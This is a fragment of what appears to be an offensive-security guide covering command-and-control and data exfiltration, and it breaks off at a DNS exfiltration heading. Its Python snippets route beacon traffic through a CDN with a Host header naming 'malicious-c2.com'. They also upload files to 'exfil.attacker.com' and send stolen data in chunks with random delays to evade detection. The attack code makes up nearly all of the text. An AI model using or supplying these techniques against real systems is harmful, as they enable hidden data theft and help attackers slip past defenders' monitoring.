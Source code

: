 #### Domain Fronting

```python
# Use CDN to hide C2 server
import requests

# Actual C2 server
c2_server = "malicious-c2.com"

# CDN domain (appears in traffic)
cdn_domain = "cloudfront.net"

# Request with domain fronting
response = requests.get(
    f"https://{cdn_domain}/beacon",
    headers={
        "Host": c2_server,
        "User-Agent": "Mozilla/5.0..."
    }
)
```

## Data Exfiltration

### Exfiltration Techniques

#### 1. HTTP/HTTPS Exfiltration

```python
# Exfiltrate via HTTPS POST
import requests
import os

def exfiltrate_file(filepath):
    with open(filepath, 'rb') as f:
        files = {'file': f}
        requests.post(
            'https://exfil.attacker.com/upload',
            files=files,
            headers={'User-Agent': 'Mozilla/5.0...'}
        )

# Chunked exfiltration to avoid detection
def chunked_exfiltration(data, chunk_size=1024):
    for i in range(0, len(data), chunk_size):
        chunk = data[i:i+chunk_size]
        requests.post('https://exfil.attacker.com/data', 
                     data={'chunk': chunk, 'index': i})
        time.sleep(random.randint(60, 300))  # Random delay
```

#### 2. DNS Exfiltration
